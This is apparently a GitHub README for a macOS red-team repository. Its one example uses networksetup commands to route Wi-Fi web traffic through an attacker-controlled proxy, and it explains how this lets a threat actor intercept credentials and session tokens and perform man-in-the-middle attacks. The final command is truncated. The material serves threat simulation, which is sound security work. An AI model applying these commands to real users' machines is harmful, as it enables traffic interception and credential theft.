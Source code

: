 # NetworkSetup TTPs_Threat Simulations

## Overview

This repository provides a collection of networksetup commands to craft scripts for crafting Tactics, Techniques, and Procedures (TTPs) and conducting threat simulations in various network environments. The networksetup commands are used to interact with network settings on macOS, offering a versatile toolset for network manipulation and testing.

## Contents

- [Usage](#usage)
- [Examples](#examples)

git clone https://github.com/sasquatchchicken/networksetup-ttps.git
cd networksetup-ttps


## Usage

- VLAN configuration
- Network service manipulation
- Preferred wireless networks management
- Proxy settings adjustment

## Examples

Craft a TTP for bypassing proxy settings:

For a threat actor, this command can be part of a technique to redirect or intercept web traffic on the target machine through a proxy controlled by the attacker. It could be used for various malicious purposes, such as:

#Traffic Interception: The attacker can intercept and analyze web traffic passing through the configured proxy server, potentially capturing sensitive information like login credentials or session tokens.

#Man-in-the-Middle (MitM) Attacks: By controlling the proxy server, the attacker can perform man-in-the-middle attacks, altering or injecting content into the communication between the target machine and the web servers.

#Bypassing Content Filters: A proxy server can be used to bypass content filters or access restricted content by making requests on behalf of the target machine.
```bash
# Enable the proxy settings
networksetup -setwebproxy "Wi-Fi" proxy.<server_address> <Server_Port>

# Bypass the proxy
networksetup -setproxybypassdomains "Wi-Fi" "*.internal.lan" "*.local"

# Display the updated proxy settings
networksetup -getwebproxy "Wi-Fi"
etworksetup -getproxybypassdomains "Wi-Fi"

